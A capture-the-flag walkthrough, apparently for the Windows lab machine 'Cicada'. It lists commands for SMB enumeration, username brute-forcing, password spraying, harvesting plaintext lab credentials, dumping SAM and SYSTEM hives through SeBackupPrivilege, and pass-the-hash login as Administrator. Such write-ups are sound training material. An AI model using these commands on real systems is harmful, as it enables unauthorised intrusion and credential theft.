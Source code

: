 # Cicada - Windows(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

![ping](Images/ping.png)


## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC 
-sV Version Scan
```

![nmap](Images/nmap.png)

This returns quite a bit of information. We can see that a few ports are open, most notably port 445(SMB).

## Investigating SMB
We can check SMB by using netexec and smbclient.

```
netexec smb <target IP>
- Check SMB

netexec winrm <target IP>

smbclient -NL <target IP>
- List SMB shares
```

![nxc](Images/nxc.png)

After checking the listed shares we find out that the HR share can be accessed with an anonymous user (no username/password is required).

```
smbclient //<target IP>/HR
```

![HR](Images/HR.png)

We can then retrieve the 'Notice from HR.txt' file by using the get command.
Back on our attacking machine we can cat the file to read the contents. 

![HRContent](Images/HRContent.png)

Here we can see the default password that is provided to new hires.

Now we can use the --rid-brute option in netexec to brute force a list of usernames and output them to a txt file.

```
netexec smb <target IP> -u 'anonymous' -p '' --rid-brute > user_name_enum.txt
```

![UserEnum](Images/UserEnum.png)

Clean up the output so that only the text file only contains the usernames.
Then use netexec to check to see if the default password is still in use by any of the accounts.

```
netexec smb <target IP> -u userNames.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![UserEnumPwd](Images/UserEnumPwd.png)

We can see that the password worked for the user michael.wrightson.
Next we can check what access Michael has to the available SMB shares.

```
smbmap -H <target IP> -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

![smbMap](Images/smbMap.png)


Checking the READ ONLY shares we dont find anything of use.
Next we can try enum4linux to try enumerate more information. Reference: https://github.com/CiscoCXSecurity/enum4linux

```
enum4linux  -a -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' <target IP>
```
![enum4](Images/enum4.png)

Luckily, a user has left his password in his account details.
We can try smbmap again with the new credentials.

```
smbmap -H <target IP> 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```
Now we can see that we have access to the DEV share.

![smbMap2](Images/smbMap2.png)

Access the DEV share using smbclient.

```
smbclient //<target IP>/DEV -U 'david.orelious'
```

![smbClient2](Images/smbClient2.png)

We can get the file Backup_script.ps1 and then read it locally on our attacking machine.
The script contains another set of credentials in plaintext.

![backupScript](Images/backupScript.png)

## User Flag
Try and use evil-winrm with the new user credentials. This works and we can find the flag on the users desktop.

```
evil-winrm -i <target IP> -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

![userFlag](Images/userFlag.png)

## Privilege Escalation and Root Flag
We can enumerate the current privileges of the logged in user using the below commnad.
```
whoami /priv
```

![regSave](Images/regSave.png)

We see that SeBackupPrivilege is Enabled. This can be used to escalate our privileges. Reference: https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md

```
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```

Then, we can use impack-secretsdump to dump the sam hashes. With this we can use evil-winrm to pass the hash and connect as Local Admin.
From here, navigate to the Desktop to retrieve the root flag.

```
impacket-secretsdump LOCAL -system system -sam sam
evil-winrm -i <target IP> -u 'Administrator' -H '<hash>'
```

![adminHash](Images/adminHash.png)

Congratulations Cicada has been successfully Pwned!

![pwned](Images/pwned.png)
